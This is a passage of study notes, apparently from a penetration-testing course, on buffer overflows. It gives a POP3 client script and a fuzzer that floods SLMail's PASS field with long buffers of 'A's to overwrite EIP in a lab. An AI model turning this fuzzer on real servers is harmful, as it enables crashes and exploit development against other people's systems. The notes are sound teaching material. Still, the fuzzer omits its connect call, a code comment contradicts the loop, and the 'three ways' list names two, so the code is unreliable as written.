 # Buffer Overflows

There are three main ways of identifying flaws in applications.
  - If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
  - If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## Fuzzing

  - Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
  - An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.

#### A Word About DEP and ASLR

  - __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
  - The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
  - __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.
#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

  - To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

    ```python
    #!/usr/bin/python
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
      print "\nSending vil buffer..."
      s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
      data = s.recv(1024)     # receive banner
      print data     # print banner

      s.send('USER   test' +'\r\n')     # end username "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.send('PASS test\r\n')     # send password "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.close()     # close socket
      print "\nDone!"

    except:
      print "Could not connect to POP3!”
    ```

  - Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

    ```python
    #!/usr/bin/python
    import socket

    # Create an array of buffers, from 10 to 2000, with increments of 20.
    buffer=["A"]
    counter=100

    while len(buffer) <= 30:
      buffer.append("A"*counter)
      counter=counter+200

    for string in buffer:
      print "Fuzzing PASS with %s bytes" %len(string)
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.recv(1024)
      s.send('USER test\r\n')
      s.recv(1024)
      s.send('PASS ' + string + '\r\n')
      s.send('QUIT\r\n')
      s.close()
    ```
    - Run this script against your SLMail instance, while attached to __Immunity Debugger__.
    - The previous screenshot suggests that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41). This is of particular interest to us, as the EIP register also controls the execution
